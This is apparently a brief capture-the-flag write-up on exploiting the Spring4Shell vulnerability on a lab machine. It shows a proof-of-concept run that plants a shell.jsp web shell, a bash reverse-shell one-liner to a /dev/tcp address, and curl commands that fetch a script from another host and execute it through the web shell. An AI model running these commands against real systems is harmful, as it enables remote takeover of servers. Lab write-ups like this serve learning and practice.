 Basic, Non rootable Machine
Here we need to exploit the Spring4Shell CVE
Links : http://10.0.200.14:8080/helloworld/greeting
I got this helpful : https://github.com/reznok/Spring4Shell-POC

also :
```terminal
┌──(root㉿bloman)-[/home/bloman/CTFs/EchoCTF]
└─# python3 springexploit.py --url http://10.0.200.14:8080/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://10.0.200.14:8080/shell.jsp?cmd=id


```

worked, now trying to get a reverse shell
`bash -c 'exec bash -i &>/dev/tcp/10.10.14.36/1234 <&1'` into a file shell.sh
Now run : 
`└─$ curl http://10.0.200.14:8080/shell.jsp?cmd=curl%2010.10.5.230%2Fshell.sh%20-o%20%2Ftmp%2Fshell.sh --output -`
then : 
```
┌──(bloman㉿bloman)-[~]
└─$ curl http://10.0.200.14:8080/shell.jsp?cmd=bash%20/tmp/shell.sh         

```
